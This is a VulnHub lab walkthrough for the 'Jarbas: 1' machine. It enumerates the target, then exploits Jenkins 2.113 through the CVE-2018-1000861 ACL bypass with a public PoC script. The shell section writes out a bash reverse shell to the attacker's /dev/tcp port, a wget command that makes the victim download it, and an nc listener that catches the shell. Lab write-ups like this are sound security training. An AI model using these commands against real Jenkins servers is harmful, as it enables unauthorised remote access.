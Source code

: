 # Jarbas: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.240 00:0c:29:e1:f2:ed       VMware, Inc.
192.168.127.254 00:50:56:e5:26:19       VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.055 seconds (124.57 hosts/sec). 3 responded
```

The IP address is `192.168.127.240`

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -v -oN nmap.out 192.168.127.240

Nmap scan report for 192.168.127.240
Host is up (0.00088s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Jarbas - O Seu Mordomo Virtual!
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
MAC Address: 00:0C:29:E1:F2:ED (VMware)
```

We immediately explore port 80 and 8080, in port 80 there is just a normal website that leads to nothing but

port 8080 serves a jenkins server with a login form. investigating internet to find the version of jenkin i found

this [guide](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security) which says navigating to `/oops` shows the version

of jenkins so :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a3345335-5afc-4c3e-9bc3-9549de8f0c8c)
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d15f5741-2f13-4c0a-b840-e274631e23b9)

jenkins version is `2.113`, i just searched if there is any exploit for this version and i found this [link](https://github.com/gquere/pwn_jenkins#authenticationacl-bypass-cve-2018-1000861-jenkins-21501)

thas says there is a Authentication/ACL bypass if this command returns a valid data :

```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

i used this command against the target and i got a response :

```bash
root@kali: curl -k -4 -s http://192.168.127.240:8080/securityRealm/user/admin/search/index?q=a

<!DOCTYPE html><html><head resURL="/static/f3ad8932" data-rooturl="" data-resurl="/static/f3ad8932">

<title>Search for 'a' [Jenkins]</title><link rel="stylesheet" href="/static/f3ad8932/css/layout-common.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/style.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/color.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/responsive-grid.css" type="text/css" /><link rel="shortcut icon" href="/static/f3ad8932/favicon.ico" type="image/vnd.microsoft.icon" /><link color="black" rel="mask-icon" href="/images/mask-icon.svg" /><script>var isRunAsTest=false; var rootURL=""; var resURL="/static/f3ad8932";</script><script src="/static/f3ad8932/scripts/prototype.js" type="text/javascript"></script><script src="/static/f3ad8932/scripts/behavior.js" type="text/javascript"></script><script src='/adjuncts/f3ad8932/org/kohsuke/stapler/bind.js' type='text/javascript'></script><script src="/static/f3ad8932/scripts/yui/yahoo/yahoo-min.js"></script><script src="/static/f3ad8932/scripts/yui/dom/dom-min.js"></script><script src="/static/f3ad8932/scripts/yui/event/event-min.js"></script><script src="/static/f3ad8932/scripts/yui/animation/animation-min.js"></script><script src="/static/f3ad8932/scripts/yui/dragdrop/dragdrop-min.js"></script><script src="/static/f3ad8932/scripts/yui/container/container-min.js"></script><script src="/static/f3ad8932/scripts/yui/connection/connection-min.js"></script><script src="/static/f3ad8932/scripts/yui/datasource/datasource-min.js"></script><script src="/static/f3ad8932/scripts/yui/autocomplete/autocomplete-min.js"></script><script src="/static/f3ad8932/scripts/yui/menu/menu-min.js"></script><script src="/static/f3ad8932/scripts/yui/element/element-min.js"></script><script src="/static/f3ad8932/scripts/yui/button/button-min.js"></script><script src="/static/f3ad8932/scripts/yui/storage/storage-min.js"></script><script src="/static/f3ad8932/scripts/hudson-behavior.js" type="text/javascript"></script><script src="/static/f3ad8932/scripts/sortable.js" type="text/javascript"></script><script>crumb.init("Jenkins-Crumb", "8f6180d50a5ba4e2893af9f93c568926");</script><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/container/assets/container.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/assets/skins/sam/skin.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/container/assets/skins/sam/container.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/button/assets/skins/sam/button.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/menu/assets/skins/sam/menu.css" type="text/css" /><meta name="ROBOTS" content="INDEX,NOFOLLOW" /><meta name="viewport" content="width=device-width, initial-scale=1" /><script src="/static/f3ad8932/jsbundles/page-init.js" type="text/javascript"></script></head><body data-model-type="hudson.search.Search" id="jenkins" class="yui-skin-sam two-column jenkins-2.113" data-version="2.113"><a href="#skip2content" class="skiplink">Skip to content</a><div id="page-head"><div id="header"><div class="logo"><a id="jenkins-home-link" href="/"><img src="/static/f3ad8932/images/headshot.png" alt="title" id="jenkins-head-icon" /><img src="/static/f3ad8932/images/title.png" alt="title" width="139" id="jenkins-name-icon" height="34" /></a></div><div class="login"> <a href="/login?from=%2FsecurityRealm%2Fuser%2Fadmin%2Fsearch%2Findex"><b>log in</b></a></div><div class="searchbox hidden-xs"><form method="get" name="search" action="/securityRealm/user/admin/search/" style="position:relative;" class="no-json"><div id="search-box-minWidth"></div><div id="search-box-sizer"></div><div id="searchform"><input name="q" placeholder="search" id="search-box" class="has-default-text" value="a" /> <a href="https://jenkins.io/redirect/search-box"><img src="/static/f3ad8932/images/16x16/help.png" style="width: 16px; height: 16px; " class="icon-help icon-sm" /></a><div id="search-box-completion"></div><script>createSearchBox("/securityRealm/user/admin/search/");</script></div></form></div></div><div id="breadcrumbBar"><tr id="top-nav"><td id="left-top-nav" colspan="2"><link rel='stylesheet' href='/adjuncts/f3ad8932/lib/layout/breadcrumbs.css' type='text/css' /><script src='/adjuncts/f3ad8932/lib/layout/breadcrumbs.js' type='text/javascript'></script><div class="top-sticker noedge"><div class="top-sticker-inner"><div id="right-top-nav"><div id="right-top-nav"><div class="smallfont"><a href="?auto_refresh=true">ENABLE AUTO REFRESH</a></div></div></div><ul id="breadcrumbs"><li class="item"><a href="/" class="model-link inside">Jenkins</a></li><li href="/" class="children"></li><li class="item"><a href="/securityRealm/" class=" inside">Jenkins’ own user database</a></li><li class="separator"></li><li class="item"><a href="/securityRealm/user/admin/" class="model-link inside">admin</a></li><li class="separator"></li></ul><div id="breadcrumb-menu-target"></div></div></div></td></tr></div></div><div id="page-body" class="clear"><div id="side-panel"></div><div id="main-panel"><a name="skip2content"></a><h1>Search for 'a'</h1><ol><li id="item_admin"><a href="?q=admin">admin</a></li><li id="item_master"><a href="?q=master">master</a></li></ol></div></div><footer><div class="container-fluid"><div class="row"><div class="col-md-6" id="footer"></div><div class="col-md-18"><span class="page_generated">Page generated: Nov 8, 2023 9:19:37 AM BRST</span><span class="jenkins_ver"><a href="https://jenkins.io/">Jenkins ver. 2.113</a></span></div></div></div></footer></body></html>
```

so now i'm pretty sure that this version of jenkins is vulnerable, so again i searched to find any exploit for this vulnerability (CVE-2018-1000861)

and i found [this](https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2018-1000861/poc.py) exploit on github which is just a PoC, but i used it in a creative way

just downloaded the python file and run it against the target :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'whoami'                
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

with this output i'm now 100% sure that i can get a shell but this script returns no command output but it realy executes the command on the server.

## 3.Gaining Shell

So i created a reverse shell on my kali machine and served it with python web server :

```bash
root@kali: cat shell.sh                                                                       
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'

root@kali: python3 -m http.server 80                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

and then used the `poc.py` file to download the shell.sh on the victim :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'wget http://192.168.127.128/shell.sh -P /dev/shm'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

and then start a listener on your system and call the sell.sh file on the victim :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'bash /dev/shm/shell.sh'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

and on my machine :

```bash
nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.240] 53568
bash: no job control in this shell
bash-4.2$ id
id
uid=997(jenkins) gid=995(jenkins) groups=995(jenkins) context=system_u:system_r:initrc_t:s0
```

yes we got the shell.





